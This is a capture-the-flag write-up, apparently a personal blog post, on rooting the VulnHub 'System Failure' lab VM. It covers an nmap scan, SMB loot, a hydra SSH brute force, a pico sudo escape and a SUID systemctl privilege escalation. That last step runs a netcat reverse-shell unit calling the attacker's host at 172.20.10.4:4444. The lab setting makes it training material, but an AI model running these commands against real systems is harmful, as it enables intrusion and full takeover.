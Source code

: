```yaml
---
layout: default
title : muzec - System Failure Writeup
---
```


![image](https://user-images.githubusercontent.com/69868171/120077961-04dc7800-c07b-11eb-9c29-172a2de4a64e.png)

We always start with an nmap scan.....

```Nmap -sC -sV -oA nmap <Target-IP>```

```
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/failure]                                                                                                              
└─$ nmap -p- -sC  -sV -oA nmap 172.16.139.190                                                                                                                          
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-29 09:52 EDT                                                                                                        
Nmap scan report for 172.16.139.190                                                                                                                                    
Host is up (0.00017s latency).                                                                                                                                         
Not shown: 65530 closed ports                                                                                                                                          
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 bb:02:d1:ee:91:11:fe:a0:b7:90:e6:e0:07:49:95:85 (RSA)
|   256 ef:e6:04:30:01:50:07:5d:2d:17:99:d1:00:3d:f2:d6 (ECDSA)
|_  256 80:7f:c5:96:0e:3d:66:b9:d6:a8:6f:59:fa:ca:86:36 (ED25519)
80/tcp  open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
Service Info: Host: SYSTEMFAILURE; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel 

Host script results:
|_clock-skew: mean: 4h20m08s, deviation: 2h18m34s, median: 3h00m07s
|_nbstat: NetBIOS name: SYSTEMFAILURE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: \x00
|   NetBIOS computer name: SYSTEMFAILURE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-05-29T12:53:20-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-29T16:53:20
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.96 seconds
```

Some very interesting ports not going to waste to much time to explain everything let hit it we don't have anonymous login on FTp so let start with SMB.

![image](https://user-images.githubusercontent.com/69868171/120078624-4a4e7480-c07e-11eb-88b8-a95a8ed53060.png)

We have a share let get it onto our machine and read it.

![image](https://user-images.githubusercontent.com/69868171/120078672-97324b00-c07e-11eb-993f-8055bb360411.png)

Seems like a hash to me so i try to crack it `89492D216D0A212F8ED54FC5AC9D340B` 

![image](https://user-images.githubusercontent.com/69868171/120078708-cf398e00-c07e-11eb-902f-dcce63d3f57b.png)

And we have it so i try using it on both `FTP` and `SSH` with the username `admin` and boom we are in.

![image](https://user-images.githubusercontent.com/69868171/120078796-22134580-c07f-11eb-9455-dca80da3947d.png)

Going through all the folder on user home directory found some txt fileand a folder.

![image](https://user-images.githubusercontent.com/69868171/120078875-79191a80-c07f-11eb-8b1e-8948421264a3.png)

Lot of files here lol but was about get the file i need by looking at the size cool right??

![image](https://user-images.githubusercontent.com/69868171/120078960-da40ee00-c07f-11eb-8917-922735da7651.png)

Checking the file probably some hint.

![image](https://user-images.githubusercontent.com/69868171/120078995-fa70ad00-c07f-11eb-8490-409bb6743fe6.png)

Enoded in base62 using `cyberchef` and we have the right word.

![image](https://user-images.githubusercontent.com/69868171/120079052-386dd100-c080-11eb-938d-d3d6582efee4.png)

`http://172.16.139.190/area4/Sup3rS3cR37/` with some sub directory in it also checking through.

![image](https://user-images.githubusercontent.com/69868171/120079270-19bc0a00-c081-11eb-8180-874ec6808228.png)

A note from the admin and also a wordlist added to it cool now going back to the ssh since i can read the passwd fileso i added all names in a file yes creating a wordlist.

![image](https://user-images.githubusercontent.com/69868171/120079340-5d167880-c081-11eb-9d9b-8cb5b05fbd31.png)

We are hitting SSH yes brute forcing.


`hydra -L user.txt -P useful.txt -e nsr ssh://172.16.139.190`

The switch `-e nsr` is reverse password that mean we are using the passwordlist in reverse that is backward `valex` to `xelav` .

![image](https://user-images.githubusercontent.com/69868171/120079393-8cc58080-c081-11eb-8d0d-6ce08cc30e7d.png)

Boom we have credential  for user `valex` now let log in SSH .

![image](https://user-images.githubusercontent.com/69868171/120079614-b3d08200-c082-11eb-9b2d-6e285a614462.png)

Checking `sudo -l` cool we can run some command on sudo so we can move to user `jin` .

### Privilege Escalation

![image](https://user-images.githubusercontent.com/69868171/120079693-16c21900-c083-11eb-83d0-d19e26e8e435.png)

Gtfobins to get the command now let move to user `jin` now type `sudo -u jin pico` .

![image](https://user-images.githubusercontent.com/69868171/120079872-fd6d9c80-c083-11eb-81f2-6a549787cbcf.png)

```
^R^X
reset; sh 1>&0 2>&0
```

![image](https://user-images.githubusercontent.com/69868171/120079898-16764d80-c084-11eb-9589-04bc1f94ccdc.png)

We are user `jin` now let check for SUID `find / -perm -u=s -type f 2>/dev/null` .

![image](https://user-images.githubusercontent.com/69868171/120079925-4f162700-c084-11eb-9d8c-c2c366928c96.png)

Boom we have `/usr/bin/systemctl` going back to Gtfobins.

![image](https://user-images.githubusercontent.com/69868171/120079953-766cf400-c084-11eb-9f15-e1be520b02d4.png)


```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.20.10.4 4444 >/tmp/f"
[Install]
WantedBy=multi-user.target' > $TF
```

![image](https://user-images.githubusercontent.com/69868171/120080073-35c1aa80-c085-11eb-9923-1803fa24a550.png)


Start our Ncat listener on the port we want before running it.

![image](https://user-images.githubusercontent.com/69868171/120080091-46722080-c085-11eb-9329-51bfed4f12b2.png)


```
/usr/bin/systemctl link $TF
/usr/bin/systemctl enable --now $TF
```

![image](https://user-images.githubusercontent.com/69868171/120080115-64d81c00-c085-11eb-87cb-820f3fe66373.png)


Now let check our Ncat listener we should have our shell in root already.

![image](https://user-images.githubusercontent.com/69868171/120080139-83d6ae00-c085-11eb-8e0a-edb943090091.png)

We are root and done.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
